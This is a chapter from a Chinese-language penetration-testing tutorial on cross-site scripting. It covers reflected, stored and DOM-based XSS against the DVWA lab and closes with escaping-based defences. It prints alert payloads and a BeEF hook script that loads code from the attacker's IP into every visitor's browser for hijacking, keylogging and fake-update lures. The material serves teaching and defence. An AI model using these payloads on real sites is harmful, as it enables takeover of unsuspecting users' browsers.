# 第二十一章：跨站脚本漏洞

在本章以及接下来的章节中，我们将学习一种叫做 **跨站脚本** (**XSS**) 的漏洞，学习如何发现 XSS 漏洞。但我们会从了解 XSS 攻击和 XSS 漏洞开始。然后我们将利用 XSS 的反射型漏洞。接下来，我们将讨论存储型 XSS，这是另一种 XSS 漏洞，并尝试发起攻击。最后，我们将学习如何防护 XSS 漏洞。

本章将涵盖以下主题：

+   XSS 简介

+   反射型 XSS

+   存储型 XSS

+   XSS BeEF 利用

+   XSS 防护

# XSS 简介

现在让我们了解更多关于 XSS 的知识。这种漏洞允许攻击者将 JavaScript 注入到页面中。JavaScript 是一种编程语言，利用这个漏洞，攻击者能够将用 JavaScript 编写的代码执行到特定页面上，比如一个网站。JavaScript 是一种客户端语言，因此当代码执行时，它会在客户端——即浏览网页的用户设备上执行，而不是在服务器上执行。因此，即使我们的代码导致我们获得一个反向 Shell，这个 Shell 也会从浏览页面的用户设备上发起，而不是从网站服务器上发起。所以我们在 JavaScript 中编写的任何代码都会被利用，并且只会在目标用户——即浏览网页的人身上执行，而不是在 web 服务器上。所以，web 服务器仅仅作为执行或传递代码的工具。

XSS 漏洞主要有三种类型：

+   **持久性或存储型**：存储型 XSS 会将注入的代码存储在数据库中。我们注入的代码将被存储在数据库或页面中，以便每当有人查看该页面时，我们的代码都会被执行。

+   **反射型**：反射型 XSS 只有当目标用户运行我们精心编写的特定 URL 时，代码才会被执行。所以我们会操控某种 URL 并将其发送给目标，当目标运行该 URL 时，代码就会被执行。

+   **基于 DOM**：基于 DOM 的 XSS 是由于客户端编写的 JavaScript 代码所导致的，因此代码实际上会在客户端进行解释和执行，而不需要与 Web 服务器进行任何通信。这可能非常危险，因为有时 Web 服务器会采取安全措施和过滤措施来检查 XSS，但在基于 DOM 的 XSS 中，代码永远不会发送到 Web 服务器。这意味着代码将在 Web 浏览器上被解释和执行，甚至不与 Web 服务器进行交互，并且会出现在那些无需刷新即可更新内容的网站上。我们都使用过那种输入用户名时，页面立即加载而不需要与 Web 服务器检查的网站，或者输入某种字符串进行搜索而不与 Web 服务器通信的网站；无论是哪种过程，一些网站都会在不与 Web 服务器通信的情况下执行功能。如果我们能够注入到这些网站中，那么这些注入将不会被验证，并且会立即执行，绕过所有验证。

# 反射型 XSS

让我们学习如何发现这些漏洞。这个方法与 SQL 注入非常相似。首先，你浏览目标网站，并尝试向任何看起来类似的文本框或 URL 注入。每当你看到一个带有参数的 URL 时，尝试将 `something=something` 作为参数进行注入，或者尝试向文本框注入内容。我们来看看一个反射型 XSS 的例子。这些是非持久性、非存储型的漏洞，我们必须实际将代码发送到目标网站，一旦目标运行了代码，它将在他们的机器上执行。

让我们查看一下我们的 DVWA 网站并登录。在下面截图的左侧 DVWA 安全标签中，我们将把脚本安全设置为低：



正如我们在下面的截图中看到的，我们可以在文本框中输入你的名字，它将显示“Hello zaid”：



这显然只是一个例子，但这个想法是你可以注入到文本框中。另外，如果我们看一下 URL `10.0.2.15/dvwa/vulnerabilities/xss-r/?name=zaid`，我们可以看到它使用了 `GET` 方法，所以我们也可以注入到 URL 中。让我们启动 D-pad，并尝试在上面注入 XSS 代码，看看 JavaScript 代码是否会被执行。我们使用了一个非常简单的脚本，即 `<script></script>` 标签。发现这类漏洞的方法有很多种，绕过过滤器的方法也有很多种，但现在我们仅仅查看一个基本的例子，我们可以注入一个普通的脚本并写入 `<script>alert("XSS")</script>` —— 这只是一个弹出警告的函数 —— 然后提交，看是否会执行该代码。

如下截图所示，页面上并不是显示“Hello zaid”，而是显示了“Hello”；我们的代码已被执行，并且弹出了 XSS 提示框：



如果我们查看这个 URL `10.0.2.15/dvwa/vulnerabilities/xss-r/?name=<script>alert("XSS")<%2fscripts>#`，我们可以看到它实际上已经为我们做了这些。但如果我们将这个 URL 复制并粘贴到记事本中，我们可以看到 `name` 参数中的脚本以及一些 CSS 脚本。

显然，所有字符都是 HTML 转义字符，如果我们将这个 URL 发送给任何人，那么代码将在查看该 URL 的人机器上执行，并显示一个弹窗提示 XSS。现在我们来看一下如何通过 URL 注入。为了展示整个概念，我们将使用这个 URL `10.0.2.15/dvwa/vulnerabilities/xss-r/?name=<script>alert("XSS")</scripts>#`。如果我们按下 *Enter*，代码将会执行。我们可以复制这个 URL 并发送给某个人，一旦他们运行该代码，代码将在他们的机器上执行。

# 存储型 XSS

现在让我们看一下一个存储型 XSS 示例。存储型 XSS 与反射型 XSS 非常相似——它允许你将 JavaScript 代码注入到浏览器中。代码会在访问页面的用户的机器上执行。唯一的区别是，对于反射型 XSS，我们需要将 URL 发送给目标，目标必须实际点击 URL 才能触发漏洞。对于存储型 XSS，代码会存储在数据库中——即存储在页面中——这样每次某人访问该页面时，他们都会看到我们的代码并且代码会被执行，所以我们不需要与任何用户互动或者发送任何东西给他们。因此，这可能比反射型 XSS 更加危险。

那么，让我们看看这个。点击左侧的 XSS 存储标签，我们将看到一个页面，如下截图所示：



该页面只允许我们向系统添加一条消息。现在，我们将会在姓名文本框中输入 `zaid`。我们首先进行一个普通的测试。接着，我们会在消息文本框中输入 `message body`，然后点击“签名留言簿”按钮。我们可以在以下截图中看到，zaid 添加了一条名为 message body 的消息：



所以，如果我们切换到另一台位于不同地点的 DVWA 机器并访问 XSS 存储标签，我们将能看到两个条目。这些条目会从数据库加载，并且它们包含数据库中的内容。如果我们成功注入了代码而不是消息，那么代码将在每次运行该页面的人的机器上执行，而我们甚至不需要发送任何代码给他们。

让我们尝试将代码注入到运行在 Kali 环境中的 DVWA 中。让我们将名字输入为 `zaid`。我们将尝试将我们的代码输入到消息文本框中。我们将其输入为 `<script>`，并且我们将使用与上一节相同的测试代码，只是一个显示 `XSS` 的消息。再次强调，非常基础的代码，但它足以用于此攻击的目的。我们将让代码显示 `alert("XSS")`，然后点击“Sign Guestbook”按钮。因此，代码如下所示：

```
<script>alert("XSS")</script>
```

我们将看到弹出警报中显示的 XSS，但当普通人访问页面时才会真正发生奇迹：


假设 DVWA 只是一个普通的网站，人们只是来浏览它。一旦他们转到网站上的 XSS 存储选项卡，JavaScript 代码将从网站上在他们的系统上执行。代码将来自网站并在访问该页面的每个用户上执行。再次强调，我们这里只是实施概念验证；在接下来的部分中，我们将看到如何进一步利用这种类型的漏洞。

# XSS BeEF 利用

我们还没有找到一种有效利用 XSS 漏洞的好方法；到目前为止，我们所做的一切只是注入了一个非常简单的代码，在屏幕上显示一个警报，说明这个网站存在漏洞。我们现在要做的是更高级的操作。我们想要控制受害者，在访问我们注入代码的漏洞页面时，在目标计算机上执行操作。我们将使用 BeEF 浏览器来实现这一点。我们在之前的章节中已经看过 BeEF。我们现在要做的是使用 BeEF 钩子 URL，并将其注入到存储型 XSS 页面中，以便每个访问该页面的人都会被连接到 BeEF。然后，我们将能够在目标计算机上运行 BeEF 允许我们运行的所有命令。

让我们启动 BeEF。如果我们查看在线浏览器，目前没有受害者。因此，为了将受害者钩入到这个框架并访问 BeEF 的功能，我们需要注入特定的脚本而不是警报：

```
<script src="http://<IP>:3000/hook.js"></script>
```

将前面代码中的`IP`替换为你当前的 IP 地址。记住，在之前的部分，我们将一个`alert`脚本注入到了 URL 或 XSS 存储页面中。在这个例子中，我们将注入一个脚本，将目标挂钩到我们的 BeEF 浏览器上，以便我们可以对其进行利用。我们将复制前面的脚本，然后访问我们的 DVWA 网站。确保在 DVWA 的安全性选项卡中将安全设置为低。在 Kali 机器上启动 BeEF 浏览器，访问 DVWA 网站，在 XSS 存储选项卡下，我们将名称设置为`beef`，并将消息字段设置为我们从 BeEF 终端获得的挂钩 URL。再次提醒，需要将挂钩 URL 中的 IP 地址修改为我们自己的 IP 地址。所以，除了网站的 IP 地址外，我们将输入自己的 IP 地址，`10.0.2.15`。现在，网站不允许我们再添加更多字符，因为消息字段配置为不允许超过一定字符数。我们可以通过右键单击并从下拉菜单中选择“检查元素”选项轻松绕过这一限制：



然后我们将修改`maxlength`，将其设置为`500`，而不是`50`：



现在我们可以添加更多字符了。我们将关闭检查元素对话框，并将 IP 设置为 `10.0.2.15`，这是我们的当前 IP 地址。然后我们将点击“签名留言簿”按钮，这应该可以使其生效。现在，如果我们访问我们的目标，也就是已经被挂钩的 Linux 计算机，可以在以下截图中看到它出现在 BeEF 窗口的左侧：



显然，这不是我们的目标；只是我们在查看网站，挂钩已经在我们的浏览器上执行。我们的目标实际上是 Windows 设备，或者任何将访问这个 XSS 存储页面的人。由于这是一个存储型 XSS，就像我们之前解释的，代码将在任何访问该页面的人的机器上执行。

现在，如果我们返回到 BeEF 浏览器，我们应该能看到 Windows 设备，并且可以看到它出现在在线浏览器列表中：



所以，我们基本上已经挂钩了 Windows 设备，现在可以运行 BeEF 允许我们使用的大量功能。接下来，我们将点击我们的目标并转到“命令”选项卡。目前，我们只想运行一个特定命令，就是像之前一样使用的`alert`命令，来确认一切是否正常工作。我们将使用`创建警告对话框`，并且可以将警告文本设置为任何我们想要的内容。我们将其保留为`BeEF 警告对话框`，然后点击“执行”：



现在，如果我们进入目标计算机，我们可以看到弹出对话框正在正常工作，如下图所示：



现在，任何浏览我们目标网站——易受攻击网站——的人都会被钩住并连接到 BeEF，我们随后可以运行所有我们之前看到的命令。因此，所有在客户端攻击中看到的命令——例如通过虚假的通知栏获取完全访问权限、获取屏幕截图、注入键盘记录器——都可以应用到访问该易受攻击页面的任何人身上，因为我们将钩子注入到了页面中，而不是浏览器中。我们的钩子是页面的一部分，所以每当页面被任何人加载时，他们都会被钩住并连接到 BeEF 浏览器。

# XSS 防护

现在让我们来讨论如何防止 XSS 漏洞。这些漏洞存在的原因是每当用户在文本框或参数中输入内容时，输入会显示在 HTML 中，因此它被视为页面的一部分。因此，如果其中包含 JavaScript 代码，那么这段代码就会被执行。为了防止这种漏洞，最好的方法是尽量减少不受信任输入的使用。鉴于这一漏洞，我们应该尽量减少用户输入内容的场合，或是减少从参数中输入内容的机会。同时，确保我们始终对将要显示或在 HTML 页面中使用的内容进行转义，因为 XSS 不仅可以注入到页面上显示内容的地方，还可以注入到 HTML 页面某些元素的参数中。转义意味着我们将下图所示的每个字符转换为它们在 HTML 中的表示方式。我们可以通过自己的脚本来实现这一点：



现在让我们看看它是如何发生的。从我们正在使用的易受攻击的网页开始，进入 XXS 存储页面。我们来查看下图中突出显示的元素，这是我们注入警告的位置。如果右键点击并选择下拉菜单中的“检查元素”，它会显示出该元素的 HTML：



如果我们扫描它，就会看到我们有一个名字字段，值是 zaid，接下来是另一个输入框，就是消息。它是一个脚本，而这个脚本的作用是弹出一个显示 XSS 的警告，这正是我们在发表评论时注入的内容。因此，每次我们运行这个页面时，这段代码都会被执行。我们需要确保每次用户输入内容时，以及每次某个内容在页面上显示或在页面元素中使用时（即使是 `id` 参数，例如，它是 `<div>` 标签的参数，但并不显示），它也可能被注入。黑客可以尝试将钩子注入到参数中——例如，他们可以尝试将钩子注入到图片属性中，制作一张图片并将钩子注入到源或 URL 中。

让我们尝试一个示例，每次用户输入在页面上被使用时—即使我们看不见它—我们都要确保对该输入进行转义，并确保其中不包含任何代码。如果输入中确实包含了代码，则将其转换为一个等效的内容，这样它就不会被执行。它会被转换为 HTTP 等效内容，以便我们看到消息中的`alert`。我们看到的是一个脚本`alert`的 XSS 漏洞消息，但它在目标计算机上运行时永远不会被执行。

现在，作为用户，为了防止自己成为 XSS 攻击的受害者，传送到我们的 URL 可能看起来像是一个可信网站的 URL；例如，假设我们在一个存在 XSS 漏洞的公司工作。我们登录到公司的系统后，代码会在我们的机器上执行。一旦发生这种情况，我们就很难采取措施，因此我们需要事先小心。通过 BeEF，我们看到为了利用这些漏洞，我们展示了一个假更新给目标计算机。例如，如果我们收到一条更新消息，我们应该访问该软件（看起来）需要更新的官方网站进行确认。所以，如果 Firefox 浏览器提示有更新，应该去 Firefox 官网查看是否真的有更新，如果有，应该从该官网下载安装—而不是从收到的通知中下载安装。同时，确保从 HTTPS 网站下载。一旦我们下载了文件，我们可以像之前看到的那样检查，确保文件中没有后门或其他恶意内容。我们还可以检查`md5sum`，以确保文件在下载过程中没有被篡改，就像我们在使用 BeEF 进行假 Facebook 登录时所做的那样。因此，任何时候如果我们被告知已被登出并要求重新登录，忽略这个请求，直接访问 Facebook，确保它使用的是 HTTPS，然后登录到 Facebook。每当有通知弹出告诉你需要做某些事情时，一定要小心—保持警觉，永远不要相信这些通知。

# 总结

在本章中，我们学习了 XSS 攻击，这些攻击可以被描述为出现在 Web 应用程序中的漏洞。我们还了解了 XSS 漏洞的三种主要类型—反射型和存储型。我们研究了反射型漏洞，并使用 DVWA 网站来发起攻击。我们还了解了存储型 XSS 漏洞，并且甚至进行了实践实现。接着，在利用环节，我们进行了一个高级攻击，控制了受害者的计算机。最后，我们学习了如何保护自己免受这些漏洞的侵害。在下一章中，我们将学习一个名为 ZAP 的工具。
